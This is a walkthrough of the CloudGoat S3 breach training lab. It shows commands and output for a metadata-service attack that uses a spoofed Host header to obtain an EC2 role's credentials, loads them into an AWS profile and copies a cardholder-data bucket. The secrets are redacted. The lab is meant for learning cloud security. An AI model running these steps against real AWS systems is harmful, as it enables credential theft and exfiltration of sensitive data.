 


Walkthrough of the Rhino Labs S3 data breach scenario


--------------------------------------------------------------------------------------------------------------------------------------

This walkthrouh includes steps for setup, commands in the cheatsheet which needed slight modification to work.  
After going through the scenario as written, I wanted to see whether we could prevent access with iptables firewall, 
and how the scenario could be impacted by the Instance Metadata Service Version 2 (IMDSV2) announced at re:Invent in December, 2019. 
--------------------------------------------------------------------------------------------------------------------------------------

Reference: 

Cloud Goat S3 breach scenario (release notes)
https://rhinosecuritylabs.com/aws/capital-one-cloud_breach_s3-cloudgoat/

Scenario Details: 
https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/cloud_breach_s3/README.md

Scenario Cheat Sheet:
https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/cloud_breach_s3/cheat_sheet.md

NOTE: Additional setup needed: ‘cloudgoat’ IAM user and profile, described in the CloudGoat 2 release notes 
https://rhinosecuritylabs.com/aws/introducing-cloudgoat-2/





--------------------------------------------------------------------------------------------------------------------------------------
Steps in scenario cheat-sheet:

1) curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254' 

# curl -s http://34.234.223.255/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'
cg-banking-WAF-Role-cgidatyedvvzzy
# 


2) curl http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'

root@HOSTNAME:~/Cloud_Goat_Test/Walkthrough# curl -s http://34.234.223.255/latest/meta-data/iam/security-credentials/cg-banking-WAF-Role-cgidatyedvvzzy -H 'Host:169.254.169.254'
{
  "Code" : "Success",
  "LastUpdated" : "2020-01-12T19:06:22Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "XXXXXXXXXXXXXXXXXXXXXX",
  "SecretAccessKey" : "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX",
  "Token" : "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX==",
  "Expiration" : "2020-01-13T01:42:16Z"


3) aws configure --profile erratic

# aws configure --profile erratic
AWS Access Key ID [****************4R4E]: XXXXXXXXXXXXXXXXXX
AWS Secret Access Key [****************plSQ]: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX          
Default region name [us-east-1]: us-east-1
Default output format [None]: 
#


4) aws_session_token = <session-token>

Note: the steps required are slightly different than described in the cheat-sheet for this scenario.

Exporting as an environment variable could work, the variable name would need to be capitalized. “export AWS_SESSION_TOKEN=QoJb3Jp...”
The order for processing IAM credentials is: 1) in your code, 2) environment variables, 3) user profile ~/.aws/credentials  4) Role  

The cheat-sheet for the Cloud Goat server side request forgery scenario “ec2_ssrf” shows how to configure the TOKEN in the user profile: 
https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/ec2_ssrf/cheat_sheet_solus.md



--------------------------------------------------------------------------------------------------------------------------------------

After editing for our current test: 

# tail ~/.aws/credentials
...
[erratic]
aws_session_token=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXx/XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX==
aws_access_key_id = XXXXXXXXXXXXXXXXXXXXXXXXXXXX
aws_secret_access_key = XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXxxx

--------------------------------------------------------------------------------------------------------------------------------------
5) Use new credentials to list S3 buckets?  Success!

# aws s3 ls --profile erratic
2020-01-12 14:07:01 cg-cardholder-data-bucket-cgidatyedvvzzy
#

--------------------------------------------------------------------------------------------------------------------------------------

6)  Copy bucket contents

# aws s3 sync s3://cg-cardholder-data-bucket-cgidatyedvvzzy ./cardholder-data --profile erratic
download: s3://cg-cardholder-data-bucket-cgidatyedvvzzy/cardholder_data_primary.csv to cardholder-data/cardholder_data_primary.csv
download: s3://cg-cardholder-data-bucket-cgidatyedvvzzy/cardholders_corporate.csv to cardholder-data/cardholders_corporate.csv
download: s3://cg-cardholder-data-bucket-cgidatyedvvzzy/cardholder_data_secondary.csv to cardholder-data/cardholder_data_secondary.csv
download: s3://cg-cardholder-data-bucket-cgidatyedvvzzy/goat.png to cardholder-data/goat.png


--------------------------------------------------------------------------------------------------------------------------------------
7) Reveiw local copy 

# ls ./cardholder-data/
cardholder_data_primary.csv  cardholder_data_secondary.csv  cardholders_corporate.csv  goat.png

 ls -ltr
total 456
-rw-r--r-- 1 root root 249500 Jan 12 14:07 goat.png
-rw-r--r-- 1 root root  92165 Jan 12 14:07 cardholders_corporate.csv
-rw-r--r-- 1 root root  59384 Jan 12 14:07 cardholder_data_secondary.csv
-rw-r--r-- 1 root root  58872 Jan 12 14:07 cardholder_data_primary.csv

# firefox ./goat.png









    


